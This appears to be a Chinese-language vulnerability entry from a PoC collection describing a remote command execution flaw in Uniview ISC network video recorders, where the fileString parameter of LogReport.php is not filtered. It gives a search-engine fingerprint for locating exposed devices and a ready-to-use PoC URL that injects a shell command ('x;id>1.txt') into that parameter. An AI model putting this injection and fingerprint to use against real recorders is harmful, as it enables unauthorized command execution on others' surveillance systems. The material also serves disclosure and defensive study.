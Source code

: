 # 浙江宇视科技 网络视频录像机 ISC LogReport.php 远程命令执行漏洞

## 漏洞描述

浙江宇视科技 网络视频录像机 ISC /Interface/LogReport/LogReport.php 页面，fileString 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

```
浙江宇视科技 网络视频录像机 ISC
```

## 网络测绘

```
app="uniview-ISC"
```

## 漏洞复现

登录页面

![image-20220519183432893](./images/202205191834953.png)

验证POC

```
/Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;id>1.txt
```

![image-20220519183528302](./images/202205191835400.png)